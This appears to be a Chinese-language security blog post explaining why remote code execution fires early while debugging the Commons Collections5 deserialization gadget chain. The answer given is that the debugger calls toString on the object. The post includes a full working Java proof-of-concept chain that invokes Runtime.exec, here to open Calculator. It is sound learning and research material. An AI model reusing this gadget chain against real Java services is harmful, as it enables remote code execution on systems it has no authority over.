

故事的起因是学弟来问我为什么在调Commons Collections5的时候，还没有走到触发点就触发了RCE。并发来了这篇文章。
我当时以commons collections5为例，调试了一下代码发现确实有这种情况。以下是调试用的demo
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
| import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
public class Poc {
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[] {
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",
new Class[] {String.class, Class[].class },
new Object[] {"getRuntime", new Class[0] }),
new InvokerTransformer("invoke",
new Class[] {Object.class, Object[].class },
new Object[] {null, new Object[0] }),
new InvokerTransformer("exec",
new Class[] {String.class },
new Object[] {"open /Applications/Calculator.app/"})
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
Field valfield = poc.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(poc, entry);
File f = new File("poc.txt");
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(poc);
out.close();
FileInputStream fis = new FileInputStream("poc.txt");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}
|
实际调试的时候我发现确实有学弟所说的情况，一图胜千言。

反复调了几次都是这个情况，感觉网上文章分析并没有问题因为走到toString那个点也会触发rce，调试时候的那个点也没道理弹框，感觉是idea有bug。后来去群里请教了一下师傅，evil7大师傅给了答案。师傅意思大致就是说在调试的时候调试器打印了valObj，所以相当于提前触发了valObj的toString方法。换句话说在调试情况下RCE触发了两次。